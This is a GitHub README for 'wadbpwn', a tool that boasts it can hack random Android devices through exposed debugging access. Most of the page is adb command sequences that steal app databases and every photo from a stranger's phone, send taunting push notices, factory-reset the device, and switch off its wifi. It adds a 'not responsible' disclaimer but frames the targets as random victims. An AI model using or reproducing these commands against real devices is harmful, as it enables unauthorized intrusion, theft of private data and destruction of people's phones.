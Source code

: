# wadbpwn

Hack a random android device with 100% guarantee to succeed within 1 second.

![Screenshot](https://nr1.nu/archive/wadbpwn/wadbpwn.gif)

![Download wadpwn](https://pastebin.com/DtFSMBsF)

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/wadbpwn
    cd wadbpwn
    chmod +x wadb*
    bash ./wadbpwn.sh
    
    - Wait ~1 second
    
    Target has been pwned!

    Enjoy ;-)

### Get Started On Windows 10

    Install any linux distro from microsoft store and run commands above..

### Steal all databases from the device ( require root )

    which su &> /dev/null
    if [[ $? -eq "0" ]]; then
       adb pull /data/data/ /some/path
    else
       printf "* No root detected, just try another target..\n"
       exit 1
    fi

### Steal all pictures: 

A simple example: 

    PICS="$(adb shell 'su -c find / \( -name '*.png' -name '*.jpg*' \)')"
    for pictures in $PICS; do
       adb pull -p $PICS /some/folder
     done
    printf "Done..is it your lucky day? ;-)\n"

### Let the owner know that you have hacked him, send a push notice:

    adb shell am broadcast -a com.google.android.c2dm.intent.RECEIVE -n <your.app.package>/com.google.android.gms.gcm.GcmReceiver --es "You h4v3 b33n h3cked mat3" "hrhr!"

### For be an d*ck and do a factory reset of the device: 

    adb shell am broadcast -a android.intent.action.MASTER_CLEAR
    adb shell reboot 

### For be device owners hero for a day you should shut down the targets wifi connection, but why? 

    adb shell svc wifi disable

### System requirements

- Android Debug Bridge (adb) - Find more info about _adb_ [here](https://developer.android.com/studio/command-line/adb)

### Author: 

* **wuseman <wuseman@nr1.nu\>** 

### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

  wuseman cannot be held as responsible for users actions regardless of what damage a user can do. All users that  gathering information or data via wadbpwn is 100% responsible for their own actions, wadbpwn has been developed for a legal purpose.


 
